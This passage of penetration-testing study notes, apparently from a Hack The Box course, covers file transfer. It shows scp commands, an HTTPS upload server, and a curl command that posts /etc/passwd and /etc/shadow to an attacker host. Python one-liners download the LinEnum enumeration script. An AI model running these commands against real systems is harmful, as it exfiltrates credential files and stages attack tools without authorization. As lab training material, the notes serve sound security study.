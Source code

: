 - SSH Copy
```c
Sauuron@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

##  <span style='color:lightgreen'> Web Server</span>

```c
Sauuron@htb[/htb]$ python3 -m pip install --user uploadserver // Start web server
```

- Via SSL/TLS

```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' # Create Selfsigned certificate

mkdir https && cd https # Recommeded not to put the certificate in the same dir as the web upload server 

python3 -m uploadserver 443 --server-certificate /root/server.pem # Start server using the selfsigned certificate

curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure # upload files to server .
```

- Various mini web servers 

```shell
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000
```

- SSH upload
```shell
Sauuron@htb[/htb]$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```



## <span style="color:lightgreen">Transfering Files using Code</span>
-------


- Python

```python
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

```
